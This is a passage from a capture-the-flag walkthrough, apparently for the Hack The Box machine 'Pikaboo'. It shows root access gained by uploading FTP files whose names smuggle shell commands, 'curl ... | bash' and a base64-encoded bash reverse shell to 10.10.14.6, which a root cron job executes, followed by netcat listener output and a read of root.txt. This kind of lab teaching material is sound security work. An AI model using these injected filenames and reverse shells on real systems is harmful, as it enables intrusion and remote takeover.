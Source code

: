     bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

Now I’ll upload the file:

    
    
    ftp> put test.txt "|curl 10.10.14.6|bash; a.csv"
    local: test.txt remote: |curl 10.10.14.6|bash; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    

When the cron runs, I get the request:

    
    
    10.10.10.249 - - [07/Jul/2021 16:31:04] "GET / HTTP/1.1" 200 -
    

And then the shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49596
    bash: cannot set terminal process group (30460): Inappropriate ioctl for device
    bash: no job control in this shell
    root@pikaboo:/srv/ftp/types#
    

Alternatively, I could just base64 encode the command I want to run:

    
    
    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    

I’ll use that to create the filename:

    
    
    ftp> put test.txt "|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv"
    local: test.txt remote: |echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    

It also returns a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49602
    bash: cannot set terminal process group (2772): Inappropriate ioctl for device
    bash: no job control in this shell
    root@pikaboo:/srv/ftp/types# 
    

Either way, I can grab `root.txt`:

    
    
    root@pikaboo:~# cat root.txt
    3a9a1e35************************
    

[](/2021/12/04/htb-pikaboo.html)

